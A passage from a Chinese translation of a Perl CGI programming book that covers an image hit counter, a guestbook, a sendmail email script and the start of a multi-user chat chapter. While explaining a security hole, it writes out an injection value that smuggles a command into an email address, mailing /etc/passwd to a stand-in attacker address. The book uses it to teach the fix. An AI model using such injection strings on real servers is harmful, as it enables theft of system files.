对于一个三位数的访问计数，我将使用三个CGI脚本——imagecounter1.cgi、imagecounter2.cgi和imagecounter3.cgi。这些CGI脚本中的第一个将读取并递增count.dat中的数字，然后返回与计数百位数字对应的图像；下一个imagecounter2.cgi将返回十位数字（并且不递增计数，因为那已经完成），最后一个CGI脚本将返回计数的个位数字。

如果你在网页中将所有这些图像紧挨着放在一起，它们将没有任何间隔地显示，看起来就像一张单独的图像。这样一个计数器在HTML页面imagecounter.htm中看起来像这样：

```html
<HTML>
<HEAD>
<TITLE>Image Counter Example</TITLE>
</HEAD>
<BODY>
<CENTER>
<H1>You are visitor number</H1>


</CENTER>
</BODY>
</HTML>
```

要使用这些CGI脚本，你需要图像文件0.gif到9.gif，对应于数字；你可以在本书附带的光盘上找到一些艺术价值不高的样本。你可以通过自己创建这些图像来自定义计数器的外观（你可以使用任何图像大小）。

你还需要创建count.dat文件，就像基于文本的访问计数器一样，这意味着你必须在与imagecounter1.cgi相同的目录中创建一个名为count.dat的文件。要开始计数，请在count.dat中放入0（使用文本编辑器），并确保该文件的权限足够低，以便你的系统上的CGI脚本可以向其写入。

我将在这里编写imagecounter1.cgi。当调用此脚本时，它会更新存储在count.dat中的值，存储新值，并在Web浏览器中显示与计数百位数字对应的图像。我首先像这样递增存储的计数：

```perl
#!/usr/local/bin/perl

use CGI;

$co = new CGI;

open (COUNT, "<count.dat")
    or die "Could not open counter data file.";

$count = <COUNT>;

close COUNT;

$count++;

open (COUNT, ">count.dat");

print COUNT $count;

close COUNT;
```

现在，我使用表达式**$image = int($count / 100) % 10**来确定百位数字对应的图像，即0.gif到9.gif。（要扩展此示例，你可以使用**$image = int($count / 1000) % 10**来查找千位数字，**$image = int($count/10000) % 10**来查找万位数字，以此类推。）找到正确的图像文件后，我像这样将其读入名为**$data**的标量：

```perl
$image = int($count / 100) % 10;

open (IMAGE, "<$image.gif");
```


## 第22章 CGI：创建网页计数器、留言簿、邮件发送器和安全脚本

### 清单22.2 imagecounter1.cgi

```perl
#!/usr/local/bin/perl

use CGI;

$co = new CGI;

open (COUNT, "<count.dat")
    or die "Could not open counter data file.";

$count = <COUNT>;

close COUNT;

$count++;

open (COUNT, ">count.dat");

print COUNT $count;

close COUNT;

$image = int($count / 100) % 10;

open (IMAGE, "<$image.gif");

$size = -s "$image.gif";

read IMAGE, $data, $size;

close IMAGE;

print

$co->header(-type=>'image/gif'),

$data;
```

### 清单22.3 imagecounter2.cgi

```perl
#!/usr/local/bin/perl

use CGI;

$co = new CGI;

open (COUNT, "<count.dat")
    or die "Could not open counter data file.";

$count = <COUNT>;

close COUNT;

$image = int($count / 10) % 10;

open (IMAGE, "<$image.gif");

$size = -s "$image.gif";

read IMAGE, $data, $size;

close IMAGE;

print

$co->header(-type=>'image/gif'),

$data;
```

### 清单22.4 imagecounter3.cgi

```perl
#!/usr/local/bin/perl

use CGI;

$co = new CGI;

open (COUNT, "<count.dat")
    or die "Could not open counter data file.";

$count = <COUNT>;

close COUNT;

$image = $count % 10;

open (IMAGE, "<$image.gif");

$size = -s "$image.gif";

read IMAGE, $data, $size;

close IMAGE;

print

$co->header(-type=>'image/gif'),

$data;
```

剩下的工作就是将该图像打印到 Web 浏览器中，打印的代码如下所示（更多详情请参阅本章前面的"从 CGI 脚本返回图像"主题）：

```perl
print
$co->header(-type=>'image/gif'),
$data;
```

以上就是递增计数并返回百位数所需的全部代码。脚本 imagecounter2.cgi 和 imagecounter3.cgi 的工作方式相同，只是它们不递增计数，而是分别返回计数的十位和个位图像数字。你可以在清单22.2中找到 imagecounter1.cgi，在清单22.3中找到 imagecounter2.cgi，在清单22.4中找到 imagecounter3.cgi。

该代码的运行结果如图22.4所示，你可以看到基于图像的网页计数器在实际工作。通过自定义从 0.gif 到 9.gif 的图像文件，你可以随意自定义该网页计数器的外观，想多花哨就多花哨。



图22.4 基于图像的网页计数器。

### 创建留言簿

老板大驾光临，烟雾缭绕中说道："我们需要追踪谁在访问我们的网站。我要你写一个留言簿。""嗯，"你吃了一惊，"什么时候要？"老板问："完成了吗？"

创建留言簿比创建网页计数器更进了一步（参见前面的主题）。留言簿接收用户的评论并将其存储在文件中，通常是 HTML 文件，这样这些评论——以及之前用户输入的评论——就可以被显示出来。

这个留言簿使用三个文件，默认情况下都放在同一目录中：guestbook.htm（如清单22.5所示）、book.htm（如清单22.6所示）和 guestbook.cgi（如清单22.7所示）。这些清单都将在本章后面出现。这三个文件的功能如下：

- **book.htm**——留言簿本身；如果你想让用户能够查看它，请在你的网页中添加指向它的链接。
- **guestbook.htm**——留言簿的前端——即你引导用户前往的页面，以便他们可以向留言簿添加内容。用户在此页面输入姓名和评论，然后点击提交按钮将数据发送到留言簿。
- **guestbook.cgi**——由 guestbook.htm 调用的 CGI 脚本，用于将评论添加到留言簿本身（即 book.htm）。

要向留言簿添加评论，你需要从 guestbook.htm 开始；该网页接收用户的姓名和留言簿评论，如图22.5所示。当用户点击发送按钮时，数据被发送到 guestbook.cgi，后者将新数据插入留言簿 book.htm 中。如果你使用此脚本，应将 guestbook.htm 中的通用 URL 更改为指向 guestbook.cgi 的 URL：

```html
<BODY>
<H1>Add to the guestbook...</H1>
<FORM METHOD = POST ACTION =
"http://www.yourserver.com/username/cgi/guestbook.cgi">
<BR>
```


图22.5 创建留言簿评论。

在 guestbook.cgi 中（参见清单22.6），我打开存储在 book.htm 中的留言簿本身，并将新评论存储在该文件中。当用户想查看留言簿中的评论时，他或她可以查看 book.htm。

现在我来看看 guestbook.cgi。guestbook.htm 将用户的姓名（来自名为 **username** 的文本字段）和评论（来自名为 **comments** 的文本区域）发送到此脚本。为了将这些评论存储到实际的留言簿文件 book.htm 中，我以如下方式打开该文件并获取名为 **BOOK** 的文件句柄：

```perl
#!/usr/bin/perl

use CGI;

$co = new CGI;

open (BOOK, "+book.htm")
    or die "Could not open guest book.";
```

这里的想法是将新的姓名和评论追加到 book.htm 的末尾，但请注意 book.htm 以常见的 **</BODY></HTML>** 标签结尾。这意味着我首先需要将文件指针移到这些标签的起始位置，代码如下（因为我使用 CGI 方法 **end_html** 来创建 **</BODY></HTML>** 字符串，所以我正好回退该生成字符串的长度，这样可以处理 **end_html** 在未来版本中可能打印不同内容的情况）：

```perl
#!/usr/bin/perl

use CGI;

$co = new CGI;

open (BOOK, "+<book.htm")
    or die "Could not open guest book.";

seek (BOOK, -length($co->end_html), 2);
```

注意我使用 **+<** 打开文件以进行读/写访问，而不是仅使用 **>>** 进行追加。我这样做是因为如果你以追加方式打开文件，你无法在文件末尾之前进行 seek 操作——而打开文件进行追加时，文件指针会被放置在文件末尾。现在，我将日期和用户的评论放入留言簿中。请注意，guestbook.cgi 文件通过将所有 **<** 字符替换为 HTML 的 **&lt;** 代码（使用代码 **$username =~ s/</\&lt;/g** 和 **$text =~ s/</\&lt;/g**）来使用户可能试图放入留言簿的任何 HTML 变为无害的，这将显示 **<** 而不是让浏览器尝试将用户的评论解释为 HTML。这意味着用户试图在你的留言簿中插入的任何 HTML 将显示为文本而不是被执行。（你可能需要添加额外的错误检查，例如检查提交文本的长度以确保不超过某个最大值。）我以如下方式在 guestbook.cgi 中获取日期、用户姓名和评论：

```perl
$date = 'date';

chop($date);

$username = $co->param('username');
$username =~ s/</\&lt;/g;

$text = $co->param('comments');
$text =~ s/</\&lt;/g;
```

然后，我通过向 **BOOK** 文件句柄打印来将新的日期、用户名和评论放入留言簿中，如下所示：

```perl
print BOOK

$co->h3
(
"New comments by ", $username, " on ", $date,
$co->p,
$text,
),

$co->hr,

$co->end_html;

close BOOK;
```

此时，留言簿已更新，我向用户发送一条消息，感谢他或她的评论，并在书签中添加一个指向 book.htm 的链接，以防用户想立即阅读留言簿查看评论：

```perl
print $co->header,

$co->start_html
(
    -title=>'Guest Book Example',
    -author=>'Steve',
    -BGCOLOR=>'white',
    -LINK=>'red'
);

print

$co->center
(
    $co->h1('Thanks for adding to the guest book!')
),

"If you want to take a look at the guest book, ",

$co->a
(
    {href=>"http://www.yourserver.com/user/cgi/book.htm"},
    "click here"
),

".",

$co->hr,

$co->end_html;
```

请注意，如果你使用此脚本，应将 guestbook.cgi 创建的超链接中的此通用 URL 更改为指向 book.htm（并确保你将 book.htm 的权限级别设置得足够低，以便 guestbook.cgi 可以从中读取和写入）：

```perl
"If you want to take a look at the guest book, ",

$co->a
(
    {href=>"http://www.yourserver.com/username/cgi/book.htm"},
    "click here"
),

".".
```

就是这样；在用户提交了他或她的姓名和评论之后，他或她会从 guestbook.cgi 收到一个感谢页面，如图22.6所示。

如果用户点击图22.6中的超链接，他或她将看到留言簿本身 book.htm，如图22.7所示。你可以在任何



图22.6 留言簿评论已被接受。




## 图 22.7  留言簿。

你网站上的其他网页。用户的名字和留言会显示在留言簿中，同时显示留言的时间和日期，如图 22.7 所示。

还需注意，你可以自定义 guestbook.cgi 以接受电子邮件地址（尽管越来越多的用户不愿意提供电子邮件地址，不仅仅是因为隐私问题，还因为那些扫描网页收集电子邮件地址然后出售列表的机器人程序）。

你还可以自定义 book.htm 留言簿文件，使用 **** 标签添加图片、设置背景等，就像处理任何网页一样。只需注意 book.htm 中*最后*的文本是 **</BODY></HTML>**（或者是 CGI.pm 新版本中 CGI 的 **end_html** 方法的当前输出，如果该方法已被更改的话），这样 guestbook.cgi 才能回退正确的距离并在添加新留言时覆盖这些标签。

## 清单 22.5  guestbook.htm

```
<HTML>
<HEAD>
<TITLE>Add to the guest book</TITLE>
</HEAD>
<BODY>
<H1>Please add to my guest book...</H1>
<FORM METHOD = POST ACTION =
"http://www.yourserver.com/user/cgi/guestbook.cgi">
<BR>
<CENTER>
Please enter your name:
<P>
<INPUT TYPE = "TEXT" NAME = "username">
</INPUT>
<BR>
Please enter your comments:
<P>
<TEXTAREA ROWS = 8 COLS = 40 NAME = "comments">
</TEXTAREA>
<BR>
<BR>
<INPUT TYPE = SUBMIT VALUE = "Send">
<INPUT TYPE = RESET VALUE = "Reset">
</CENTER>
</FORM>
</BODY>
</HTML>
```

## 清单 22.6  guestbook.cgi

```
#!/usr/bin/perl

use CGI;

$co = new CGI;

open (BOOK, "+<book.htm")
    or die "Could not open guest book.";

seek (BOOK, -length($co->end_html), 2);

$date = 'date';

chop($date);

$username = $co->param('username');
$username =~ s/</&lt;/g;

$text = $co->param('comments');
$text =~ s/</&lt;/g;

print BOOK
$co->h3
(
    "New comments by ", $username, " on ", $date,
    $co->p,
    $text,
),

$co->hr,

$co->end_html;

close BOOK;

print $co->header,

$co->start_html
(
    -title=>'Guest Book Example',
    -author=>'Steve',
    -BGCOLOR=>'white',
    -LINK=>'red'
);

print

$co->center
(
    $co->h1('Thanks for adding to the guest book!')
),

"If you want to take a look at the guest book, ",

$co->a
(
    {href=>"http://www.yourserver.com/user/cgi/book.htm"},
    "click here"
),

".",

$co->hr,

$co->end_html;
```

## 清单 22.7  book.htm

```
<HTML>
<HEAD>
<TITLE>
The Guest Book
</TITLE>
</HEAD>
<BODY>
<CENTER>
<H1>Here is the guest book...</H1>
<HR>
</BODY>
</HTML>
```

## 通过 CGI 脚本发送电子邮件

"嗯，"新手程序员说，"我已经搭建了一个网站，想要获取一些用户反馈。但是，留言簿并不是我想要的。我更希望能让用户直接给我发邮件。我能通过 CGI 脚本实现吗？" "当然可以，"你说，"事实上，你可以通过多种方式来实现。"

虽然你可以像前面的留言簿示例那样将用户反馈存储在你的 ISP 上，但有时将反馈直接通过电子邮件发送给你会更方便。我编写了接下来的脚本来实现这个功能。请注意，这段代码需要使用系统资源来支持电子邮件功能，因此该脚本依赖于操作系统，我这里使用 Unix。在这个示例之后，我还会介绍 CPAN 的 **Mail** 模块。

## 使用 Unix sendmail

这个电子邮件应用程序由一个 HTML 文件 email.htm 组成，它是前端界面，让用户可以通过 Web 浏览器撰写电子邮件，如图 22.8 所示。一个 CGI 脚本 email.cgi 接收电子邮件、发送它并显示确认消息，如图 22.9 所示。

供参考，email.htm 见清单 22.8，email.cgi 见清单 22.9。

这封电子邮件的发送方式与任何标准电子邮件的发送方式相同；对于图 22.8 中的示例，你会收到以下电子邮件（请注意，该应用程序允许用户设置自己的电子邮件地址，因此 **From:** 字段可能包含虚假或无效的地址）：

```
Date: Thu, 12 Nov 15:26:57 -0500 (EST)
To: user@yourserver.com
From: user@aserver.com
Subject: Friendly greeting

Dear you:

        How are you? Write when you get the chance!

                                    A. F. User
```

使用此应用程序，你可以将用户数据直接通过电子邮件发送给你，而不必在 ISP 上查看某种日志文件。

当你自定义此应用程序时，不要忘记将 email.htm 中指向 email.cgi 的通用 URL 替换为正确的 URL：

```
<HR><FORM METHOD="POST"
ACTION="http://www.yourserver.com/username/cgi/email.cgi"
ENCTYPE="application/x-www-form-urlencoded">
```



## 图 22.8  撰写电子邮件。



## 图 22.9  电子邮件确认。

另外，确保 email.cgi 中系统 **sendmail** 应用程序的路径是正确的（在 Unix 系统中，它通常位于类似 /usr/lib/sendmail 的路径下，因此 email.cgi 中就是这样设置的）：

```
$text = $co->param('text');
$text =~ s/</&lt;/g;

open(MAIL, '| /usr/lib/sendmail -t -oi');
```

同时，当然要确保在 email.cgi 中将你想要接收电子邮件的地址放在 **To:** 字段中（不要忘记在 **HERE** 文档中将 @ 转义为 \@，如所示；email.cgi 本身会为发送者的电子邮件地址处理该任务，该地址存储在 **$from** 中）：

```
open(MAIL, '| /usr/lib/sendmail -t -oi');
print MAIL <<EOF;
To: steve\@yourserver.com
From: $from
Subject: $subject
$text
EOF
close MAIL;
```

> **提示：** email.cgi 脚本使用 **$text =~ s/</&lt;/g** 从发送给你的邮件中移除 HTML 标签，因为许多人使用 Web 浏览器阅读邮件，而邮件中的 HTML 标签可能会重定向你的浏览器或产生其他烦人的效果。如果移除标签对你来说过于谨慎，只需删除那行代码即可。

邮件脚本容易受到一个严重安全漏洞的影响，而 email.cgi 中已修补了该漏洞。当你打开到 **sendmail** 程序的管道时，不应该像许多类似脚本那样将用户提供的电子邮件地址直接传递给 **sendmail** 程序：

```
open (MAIL,"| /usr/lib/sendmail $emailaddress");
```

这里的安全漏洞在于，用户可能在电子邮件地址中放置元字符，这可能导致管道执行超出你预期的操作。例如，如果用户将以下内容作为电子邮件地址传入：

```
anon@someserver.com;mail hacker@hackerworld.com</etc/passwd;
```

**open** 语句实际上会执行以下语句：

```
/usr/lib/sendmail anon@someserver.com; mail
    hacker@hackerworld.com</etc/passwd
```

在这种情况下，系统密码文件会被发送给 **hacker@hackerworld.com**，这可能不是你想做的。解决此问题的方法是以如下方式打开管道，使用 **-t** 开关而不是传递电子邮件地址：

```
open(MAIL, '| /usr/lib/sendmail -t -oi');
```

```
print MAIL <<EOF;
To: steve\@yourserver.com
From: $from
Subject: $subject
$text
EOF
close MAIL;
```

**-t** 开关告诉 **sendmail** 直接从传递给它的 **To:** 字段中获取发送电子邮件的地址。（**-oi** 开关告诉 **sendmail** 如果遇到以句点开头的行，不要终止和发送电子邮件；在过去，以句点开头的电子邮件命令可以直接嵌入电子邮件消息中。）实际上，在 email.cgi 当前的代码中这不是一个问题，因为它被设置为直接从自身代码中读取你的电子邮件地址。

我以这种方式编写 email.cgi，以防你修改它让用户指定发送电子邮件的地址。在这种情况下要小心，因为人们可能会利用由此产生的应用程序从你的网站发送半匿名电子邮件。这封电子邮件是"半匿名的"，因为用户可以自己设置 **From:** 字段。虽然收件人可以通过检查轻松确定它来自你的 ISP

电子邮件消息的头部信息，所有收件人除了**发件人（From:）**字段之外，能够直接找到的实际发件人名称是**nobody@localhost**。不过，如果真的需要追溯的话，你的ISP可以通过消息ID追踪到你。

## 清单 22.8 email.htm

```
<HTML>
<HEAD>
<TITLE>Send me some email</TITLE>
</HEAD>
<BODY BGCOLOR="white" LINK="red">
<CENTER>
<H1>Send me some email!</H1>
</CENTER>
<HR>
<FORM METHOD="POST"
ACTION="http://www.yourserver.com/username/cgi/email.cgi"
ENCTYPE="application/x-www-form-urlencoded">

Please enter your email address:
<INPUT TYPE="text" NAME="name" VALUE="">
<P>
Please enter the email's subject:
<INPUT TYPE="text" NAME="subject" VALUE="">
<P>
Please enter the email you want to send:
<P>
<TEXTAREA NAME="text" ROWS=10 COLS=60>
Dear you:
</TEXTAREA>
<P>
<CENTER>
<INPUT TYPE="submit" NAME="submit" VALUE="Send email">
<INPUT TYPE="reset">
</CENTER>
<HR>
</FORM>
</BODY>
</HTML>
```

## 清单 22.9 email.cgi

```
#!/usr/bin/perl

use CGI;

$co = new CGI;

print $co->header,

$co->start_html
(
    -title=>'Email Example',
    -author=>'Steve',
    -BGCOLOR=>'white',
    -LINK=>'red'
);

if ($co->param()) {

    $from = $co->param('name');
    $from =~ s/@/\@/;

    $subject = $co->param('subject');

    $text = $co->param('text');
    $text =~ s/</&lt;/g;

    open(MAIL, '| /usr/lib/sendmail -t -oi');

    print MAIL <<EOF;
To: steve\@yourserver.com
From: $from
Subject: $subject
$text
EOF

    close MAIL;
}

print

$co->center($co->h1('Thanks for sending me email!')),

$co->hr,

$co->end_html;
```

## 使用 Mail 模块

除了使用Unix的**sendmail**程序之外，你还可以使用CPAN上的**Mail::Mailer**模块。安装此模块时，如果条件允许，它会自动连接到你机器上的邮件系统。

要使用**Mail::Mailer**，你需要创建一个该类型的新对象：

```
use Mail::Mailer;

$mail = Mail::Mailer->new();
```

要创建邮件头信息，你可以像下面这样使用**open**方法，其中我通过哈希提供了**From:**、**To:**和**Subject:**字段：

```
use Mail::Mailer;

$mail = Mail::Mailer->new();

$mail->open
(
	{
		From    => 'user@aserver.com',
		To      => 'user@yourserver.com',
		Subject => 'Friendly greeting',
	}
);
```

剩下的工作就是向**$mail**对象打印内容，然后关闭它即可发送邮件：

```
use Mail::Mailer;

$mail = Mail::Mailer->new;

$mail->open
(
	{
		From    => 'user@aserver.com',
		To      => 'user@yourserver.com',
		Subject => 'Friendly greeting',
	}
);

print $mail "Dear you:\nHow are you? Write when you get the chance!";

$mail->close;
```

# 第 23 章

## CGI：创建多用户聊天、服务器推送、Cookie 和游戏

| 如果你需要以下内容的即时解决方案 | 请参阅页面： |
|---|---|
| 创建多用户聊天应用程序 | 984 |
| 多用户安全问题 | 985 |
| 处理拒绝服务攻击 | 986 |
| 从 Web 浏览器进行聊天 | 986 |
| 使用客户端拉取设置 HTML 页面的刷新速率 | 986 |
| 使用 **-override** 清除粘性 HTML 控件 | 987 |
| 使用服务器推送 | 994 |
| 使用服务器端包含 | 996 |
| 编写和读取 Cookie | 999 |
| 使用 Cookie | 999 |
| 如何编写 Cookie | 1000 |
| 如何读取 Cookie | 1002 |
| 创建游戏 | 1005 |
| 在脚本调用之间将数据存储在网页中 | 1005 |
| 自定义此游戏 | 1006 |

**第 23 章　CGI：创建多用户聊天、服务器推送、Cookie 和游戏**

### 深入探讨

在本章中，我们将看到一些功能强大的 CGI 脚本示例：一个多用户聊天应用程序；客户端拉取、服务器推送和服务器端包含的示例；一个让你设置和读取 Cookie 的脚本；以及一个内容丰富、甚至可能会让你乐在其中的游戏。

> **提示：** 请记住，这些脚本是作为*演示脚本*来设计的。如果你打算将它们安装到 ISP 上，我建议你加强错误检查和安全措施，并且在按需定制脚本后，对其进行检查以确保它们能正常运行。

聊天应用程序设计为允许多个用户同时使用；一个用户输入的内容，所有其他用户都能看到，从而形成一个互联网对话。从原理上讲，聊天应用程序很容易创建，因为你只需将用户发送的内容存储在一个中央文件中，然后在每个人的浏览器中不断显示更新的文本即可。事实上，让我在这里指出一些微妙的问题：例如，既然许多用户将访问同一文件中的数据，你就应该使用文件锁来避免冲突。我在本章编写了一个基本但功能完整的聊天应用程序，它使用客户端拉取来持续更新聊天用户的 Web 浏览器；该应用程序展示了许多实际的 CGI 编程问题以及如何处理它们。

在聊天应用程序中使用*客户端拉取*使网页自动刷新之后，我将介绍服务器推送和服务器端包含。*服务器推送*是一种让 Web 服务器向浏览器发送页面流以创建页面动画的技术。**CGI.pm** 包含对服务器推送的一些支持，因此我们将在本章看到它是如何工作的。另一个热门话题是*服务器端包含*的使用，它们是发送给 Web 服务器的命令，我也将在本章中介绍这个话题。

设置和读取 Cookie 在互联网上已经变得流行——至少在 Web 程序员中是这样。有些用户反对在他们的计算机上设置 Cookie，因此本章中的示例不会设置任何 Cookie，除非用户明确输入了需要脚本存储的数据。该 Cookie 脚本会存储一个人的姓名和出生日期，并在他或她每次导航回到脚本时向其问好。如果日期合适，它甚至会祝那个人生日快乐。这个脚本会将其数据存储在一个哈希中，因此你可以轻松地对其进行定制，以便在你自己的脚本中使用。

本章中的游戏脚本是一个完整版的猜单词游戏，这是一种传统的文字游戏，你需要通过提供字母来猜测一个单词。这个版本的游戏界面相对安全，因为我编写它时使其不直接接受玩家输入的文本；相反，玩家通过单击单选按钮来做选择。如果玩家在猜错八个字母之前没有拼出正确的单词，游戏会告诉他或她这个单词是什么。这个脚本允许你为每次错误猜测提供（可选的）图片，以便脚本可以在每次错误猜测时逐步构建出适当但传统恐怖风格的猜单词图像。（该脚本足够智能，如果你没有提供任何图形文件，它会自动省略图片。）你会在本书附带的 CD 上找到一个包含 5,000 个单词的示例文件，可与此游戏配合使用，以及它可以显示的图片。

与后续章节中的 CGI 脚本一样，我使用 **CGI.pm** 编写了这些脚本。既然我们已经概述了本章脚本的功能，让我们来看一下代码。

> **提示：** 如果你将这些脚本安装在你的 ISP 上，不要忘记它们需要 Perl 5 或更高版本。在某些系统上，默认的 Perl 版本较旧，所以如果你使用的是 Unix 系统，你可能需要将 **#!/usr/bin/perl** 这一行更改为类似 **#!/usr/bin/perl5** 的内容。

# 23. CGI：创建多用户聊天、服务器推送、Cookie 和游戏

### 即时解决方案

### 创建多用户聊天应用程序

大老板出现了并说："编程正确性总监让我确信 Perl 是 CGI 编程的最佳选择，所以我要你创建我们新的热门软件。""好的，"你说，"是什么？""一个聊天程序，"大老板说，"让任意多的用户登录并聊天。""好吧，"你说，"但这种交互方式会占用大量的服务器带宽。""没问题，"大老板说，"我们会按分钟收费！"

这个多用户聊天应用程序使你无需借助 Java、JavaScript、插件或其他工具即可支持互联网聊天，而且它应该适用于大多数浏览器。该脚本支持多个用户同时输入，任何用户输入的内容都可以被所有其他用户看到。通过这种方式，聊天应用程序支持持续进行的可视化对话。

> **提示：** 聊天室应用程序可能会在你的网站上造成大量的访问量，因为这类应用程序的工作方式是在每个人的浏览器中持续显示更新的数据。你的 ISP 运营商可能不会喜欢占用如此多带宽的用户。减少需求的一种方法是延长聊天应用程序中的刷新间隔时间；有关如何操作的信息，请参阅本章后面的"使用客户端拉取设置 HTML 页面的刷新速率"一节。

我为本章编写的聊天应用程序如图 23.1 所示。如你所见，用户在网页中输入他或她的姓名和聊天内容。当该用户单击"发送文本"按钮时，输入的文本会被发送到网站，并会连同用户的姓名一起显示在参与对话的所有其他用户的浏览器中。

你所需要的就是一个 Web 浏览器（一个支持通过元刷新进行客户端拉取的浏览器，几乎所有现代浏览器都支持）。用户只需在浏览器中打开一个名为 chat.htm 的网页，聊天应用程序就会处理其余的工作，创建一个可正常使用的互联网对话。


## 多用户安全问题

这里有几个重要的安全问题。例如，如果对话中有人开始直接输入HTML怎么办？这个脚本通过将`<`字符替换为`&lt;`，使得在聊天评论或用户名中输入的HTML代码变得无害，这样它在浏览器中显示为`<`，而不是被解释为HTML标签的开头。

此外，由于许多用户同时访问聊天数据文件，这个脚本在读写文件时使用Perl的**flock**函数来锁定文件，以避免冲突。（有关**flock**的更多细节，请参见第13章。）

我使用了排他锁而非共享锁，即使在读取文件时也是如此，因为在多种不同系统上（正如实际经验所示，其中一些系统并未成功实现共享锁）证明这样更安全。当你在Perl中使用**flock**为文件创建排他锁时，在你解锁该文件之前，其他任何程序都无法使用**flock**来获取该文件的锁。这并不一定意味着其他程序无法使用该文件（例如在Unix系统中，它们可以）——只是它们无法从**flock**获得真的值。这个脚本使用**flock**来协调用户之间的文件访问，在能够从**flock**获得真的值之前，它会等待，然后才使用文件。

如果这个脚本发现自己被阻止访问聊天数据文件，它会在5秒内每秒尝试10次；如果这不起作用，说明出了问题，直到脚本能再次获得访问权限，才会显示“服务器太忙”的消息。

## 处理拒绝服务攻击

*拒绝服务攻击*顾名思义——就是拒绝向用户提供服务。拒绝服务攻击的一种常见形式是使系统资源过载（这会拒绝系统上所有人的服务），当用户向脚本发送大量数据或上传巨大文件时，CGI.pm很容易受到此类攻击。为了在一定程度上处理这类攻击，你可以将变量**$CGI::POST_MAX**设置为一个非负整数。这个变量以字节为单位对POST数据的大小设置了上限。

> **提示：** 这个聊天应用程序并未设计成排除任何人访问。如果你想这样做，请确保为应用程序添加一个密码前端。

## 从Web浏览器聊天

这个应用程序的工作方式如下：用户导航到`chat.htm`，它会创建两个框架；顶部框架使用名为`chat1.cgi`的脚本显示当前聊天文本，底部框架使用另一个脚本`chat2.cgi`来显示一个用户可以输入文本的文本区域和一个用于提交该文本的提交按钮。顶部框架使用一个meta HTTP标签使浏览器每五秒刷新一次该框架。

要安装这个应用程序，你需要将`chat.htm`、`chat1.cgi`、`chat2.cgi`以及两个数据文件——`chat1.dat`和`chat2.dat`——放在同一个目录中。

你会在清单23.1中找到`chat.htm`，在清单23.2中找到`chat1.cgi`，在清单23.3中找到`chat2.cgi`。你需要自己创建数据文件`chat1.dat`和`chat2.dat`；只需创建这些名称的文件，放入一些简短的示例文本，并将它们的权限设置得足够低，以便CGI脚本`chat1.cgi`和`chat2.cgi`可以从中读取和写入。要开始聊天，用户只需打开`chat.htm`。

这个聊天应用程序使用两个数据文件来存储最近的两条聊天条目。（我为每个聊天文本条目使用单独的文本文件，是为了在文件锁定方面使文本存储更安全，并使整个应用程序更健壮。）如果你愿意，你可以修改代码以使用超过两个数据文件，从而显示超过最后两条的聊天条目。

## 使用客户端拉取设置HTML页面的刷新率

